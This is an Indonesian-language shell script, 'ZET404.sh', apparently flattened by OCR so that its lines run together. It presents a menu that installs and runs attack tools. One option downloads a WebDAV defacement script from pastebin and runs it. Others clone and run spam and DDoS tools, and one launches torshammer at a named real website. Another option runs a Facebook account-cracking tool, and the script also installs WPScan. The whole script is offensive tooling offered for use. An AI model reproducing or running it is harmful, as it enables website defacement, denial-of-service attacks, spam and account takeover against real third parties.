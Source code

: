 # ZET404.sh
clear echo "\033[34;1m Selamat datang di Tools ZET404" | lolcat echo "\033[35;1m Tools Ini Masih Dalam Perkembangan Karena Masih Beta" | lolcat echo "\033[36;1m Thanks To" | lolcat echo "\033[32;1m All My Friends" | lolcat  echo "[1] Deface Webdav" | lolcat echo "[2] LiteSpam" | lolcat echo "[3] Ddos Hammer" | lolcat echo "[4] Ddos Xerxes" | lolcat echo "[5] TorsHammer" | lolcat echo "[6] Lazymux" | lolcat echo "[7] Hack FB" | lolcat echo "[8] Install WPScan" | lolcat  echo "\033[35;1m Silahkan Di Pilih Yang Mau Di install | lolcat  read -p "ZET404" pilihan   if [ $pilihan = "1" ] || [ $pilihan = "1" ] then apt update &amp;&amp; upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests apt install openssl curl pkg install libcurl ln -s /sdcard cd sdcard mkdir webdav cd webdav curl -k -O https://pastebin.com/raw/HnVyQPtR mv HnVyQPtR webdav.py python2 webdav.py cd cd /sdcard/webdav python2 webdav.py fi  if [ $pilihan = "2" ] || [ $pilihan = "2" ] then apt update apt upgrade pkg install toilet pkg install php pkg install git git clone https://github.com/4L13199/LITESPAM cd LITESPAM sh LITESPAM.sh fi  if [ $pilihan = "3" ] || [ $pilihan = "3" ] then pkg update pkg upgrade  pkg install python pkg install git git clone https://github.com/cyweb/hammer  cd hammer  python hammer.py python hammer.py -s fi  if [ $pilihan = "4" ] || [ $pilihan = "4" ] then apt install git  apt install clang  git clone https://github.com/zanyarjamal/xerxes  ls  cd xerxes  ls  clang xerxes.c -o xerxes  ls  ./xerxes  fi  if [ $pilihan = "5" ] || [ $pilihan = "5" ] then pkg update  pkg install git  Pkg install tor  pkg install python2  git clone https://github.com/dotfighter/torshammer.git  ls  cd torshammer  python2 torshammer.py -T -t seword.com  fi  if [ $pilihan = "6" ] || [ $pilihan = "6" ] then apt update &amp;&amp; apt upgrade apt install git git clone https://github.com/Gameye98/Lazymux cd Lazymux ls python2 lazymux.py fi   if [ $pilihan = "7" ] || [ $pilihan = "7" ] then apt update &amp;&amp; apt upgrade pkg install python2 git pip2 install mechanize git clone https://github.com/pirmansx/mbf ls cd mbf python2 MBF.py fi  if [ $pilihan = "8" ] || [ $pilihan = "8" ] then apt update &amp;&amp; apt upgrade apt install git apt install ruby git clone https://github.com/wpscanteam/wpscan/ cd wpscan chmod 777 wpscan.rb gem install bundle bundle install -j5 ruby wpscan.rb fi
